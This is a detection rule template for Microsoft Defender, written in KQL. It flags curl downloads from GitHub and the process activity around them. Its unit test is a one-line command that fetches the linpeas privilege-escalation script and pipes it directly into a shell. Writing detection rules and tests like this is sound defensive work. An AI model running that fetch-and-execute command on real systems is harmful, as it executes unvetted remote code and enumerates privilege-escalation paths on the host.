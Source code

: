 # Detection Rule Template

## Basic Information

- **Author:** y0uf0ol
- **Creation Date:** 02/23/2024
- **Maturity:** Testing
- **Reference:** /

## Naming

- **Name:** Data Transfer and Reconnaissance Activity via Network Utilities
- **Description:** Identifies suspicious inbound data transfers and network exploration using command-line network utilities. This could signal attack preparation, malware delivery, or attempts to profile your network.

## Technical Details

- **Tags:** T1595 T1560
- **Data Source:** Kusto: DeviceProcessEvents

## Rule Implementation

```yaml
let curl = (DeviceProcessEvents
| where ProcessCommandLine contains "curl" and ProcessCommandLine contains "github"
| project Timestamp);
let device_id = (DeviceProcessEvents
| where ProcessCommandLine contains "curl" and ProcessCommandLine contains "github"
| project DeviceId);
DeviceProcessEvents
| where Timestamp between ((toscalar(curl) - 5min) .. (toscalar(curl) + 5min))
| where DeviceId in (device_id)
| project Timestamp, DeviceId, FileName, FolderPath, SHA1, ProcessCommandLine, InitiatingProcessCommandLine, ReportId
| sort by Timestamp desc ```

- **Response:** Check for actions before and after the Alert
- **False Positive:** Legit usage of a downloaded tool
- **Severity:** low
- **Confidence:** low
 

 ## Unit Test

```yaml
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
